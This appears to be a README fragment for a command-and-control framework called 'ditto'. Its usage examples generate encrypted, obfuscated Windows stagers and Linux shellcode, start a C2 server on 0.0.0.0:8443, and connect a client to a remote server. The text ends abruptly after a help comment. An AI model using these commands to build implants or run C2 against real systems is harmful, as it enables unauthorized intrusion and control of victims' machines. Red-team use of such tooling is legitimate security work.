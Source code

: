 ### Available Commands

| Command | Description |
|---------|-------------|
| `generate` | Generate payloads (stager, shellcode, or full) |
| `server` | Start C2 server |
| `client` | Connect as client to C2 server |
| `help` | Show help message |
| `version` | Show version information |
| `clear` | Clear screen |

---

## 📖 Usage Examples

### Generate Windows Stager

```bash
./bin/ditto --mode generate \
    --payload stager \
    --os windows \
    --arch amd64 \
    --output windows_stager.exe \
    --encrypt \
    --obfuscate
```

### Generate Linux Shellcode

```bash
./bin/ditto --mode generate \
    --payload shellcode \
    --os linux \
    --arch amd64 \
    --output linux_shellcode.bin
```

### Start Server with Debug

```bash
./bin/ditto --mode server \
    --listen 0.0.0.0:8443 \
    --debug
```

### Interactive Mode Examples

```bash
# Start interactive CLI
./bin/ditto

# Generate payload
[ditto] > generate stager windows amd64 payload.exe

# Start server on custom port
[ditto] > server 0.0.0.0:8080

# Connect to server
[ditto] > client https://server.com:8443

# Show help
```